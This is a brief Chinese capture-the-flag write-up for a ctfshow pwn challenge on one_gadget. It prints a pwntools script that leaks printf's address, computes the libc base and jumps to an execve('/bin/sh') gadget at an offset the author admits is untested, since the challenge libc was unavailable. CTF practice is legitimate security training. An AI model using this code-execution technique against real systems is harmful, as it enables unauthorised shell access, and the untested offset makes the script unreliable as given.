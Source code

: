 # 挑战简介
噢？好像到现在为止还没有了解到one_gadget?

# 思路
one_gadget可以做到根据libc来测算出bin_sh  

由于没有ctfshow的libc，所以直接给理论答案了  

```
from pwn import *
context(arch="amd64",log_level="debug")
p=remote("pwn.challenge.ctf.show",28184)
libc=ELF("/home/kali/桌面/ctfshoww/libc.so.6")
execve=0x10a2fc
p.recvuntil("this:")
printfar=eval(p.recvuntil("?",drop=True))
base=printfar-libc.sym['printf']
execve_t=execve+base
p.sendline(str(execve_t))
p.interactive()
```
